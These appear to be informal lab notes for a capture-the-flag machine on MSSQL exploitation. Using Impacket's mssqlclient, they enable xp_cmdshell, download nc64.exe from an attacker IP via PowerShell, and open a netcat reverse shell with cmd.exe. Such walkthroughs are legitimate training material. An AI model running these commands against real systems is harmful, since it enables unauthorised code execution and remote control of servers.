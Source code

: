 https://github.com/SecureAuthCorp/impacket

or: 

git clone https://github.com/SecureAuthCorp/impacket.git

cd impacket

pip3 install .

# OR:

sudo python3 setup.py install

# In case you are missing some modules:

pip3 install -r requirements.txt

cd impacket/examples/

python3 mssqlclient.py -h

python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
![image](https://github.com/D-spec-sec/Cybersecurity/assets/172300374/cacfa68a-bbc9-4142-b290-dffc746609a8)

Check user: SELECT is_srvrolemember('sysadmin');  

if transalte to 1, true

In previous cheatsheets, we found also how to set up the command execution through the xp_cmdshell :   

xp_cmdshell cheat:

EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell

first as it’s disabled by default:

EXEC sp_configure 'show advanced options', 1; — priv

RECONFIGURE; — priv

EXEC sp_configure 'xp_cmdshell', 1; — priv

RECONFIGURE; — priv


BUT First, check to see if xp_cmdshell is enabled: 

SQL> EXEC xp_cmdshell 'net user';  

if not activated do:

EXEC sp_configure 'show advanced options', 1;

RECONFIGURE;

sp_configure;            ------ Enabling the sp_configure as stated in the above error message

EXEC sp_configure 'xp_cmdshell', 1;

RECONFIGURE;


xp_cmdshell "whoami"  

now to get a foothold. 

uplaod netcat binary: 

https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------

okay to upload the binary to the target: 

start listenr in folder with binary:

sudo python3 -m http.server 80 sudo nc -lvnp 443  

sudo python3 -m http.server 80

sudo nc -lvnp 443


In order to upload the binary in the target system, we need to find the appropriate folder for that. We will be

using PowerShell for the following tasks since it gives us much more features then the regular command

prompt. In order to use it, we will have to specify it each time we want to execute it until we get the reverse

shell. To do that, we will use the following syntax: powershell -c command

The -c flag instructs the powershell to execute the command.

We will print the current working directory by issuing the following:

We found the folder where we will place the binary. To do that, we will use the wget alias within PowerShell

( wget is actually just an alias for Invoke-WebRequest ):

xp_cmdshell "powershell -c pwd"

get to a directory that doesnt need elevation sicne we dont have a shell yet like Downloads on a home directory:

Then run this to uplaod the shell:

SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.9/nc64.exe -outfile nc64.exe"  

now to bind the cmd.exe thru nc to our listener:

SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.9 443"  
